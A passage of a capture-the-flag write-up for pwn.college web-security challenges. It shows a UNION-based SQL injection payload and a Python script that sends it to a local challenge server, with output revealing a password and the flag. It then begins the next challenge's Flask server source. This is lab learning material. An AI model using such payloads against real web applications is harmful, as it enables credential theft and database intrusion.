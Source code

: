 The resultant query will be:

```sql
SELECT username FROM {random_user_table} WHERE username LIKE "admin" UNION SELECT password FROM users_4902969274-- -"
```

```py title="~/script.py" showLineNumbers
import requests

url = "http://challenge.localhost:80"
params = {
    "query": 'admin" UNION SELECT password FROM users_4902969274-- -'
}
response = requests.get(url, params = params)
print(response.text)
```

```
hacker@web-security~sqli-4:/$ python ~/script.py 

        <html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='admin" UNION SELECT password FROM users_4902969274-- -'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>SELECT username FROM REDACTED WHERE username LIKE "admin" UNION SELECT password FROM REDACTED-- -"</pre><br>
        <b>Results:</b><pre>admin
password
pwn.college{AlwY4pMMjmQroxd9XEXlpIAKgEF.dJTOzMDL4ITM0EzW}
</pre>
        </body></html>
```

&nbsp;

## SQLi 5

### Source code
```py title="/challenge/server" showLineNumbers
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


import sqlite3
import tempfile


class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result


db = TemporaryDB()
```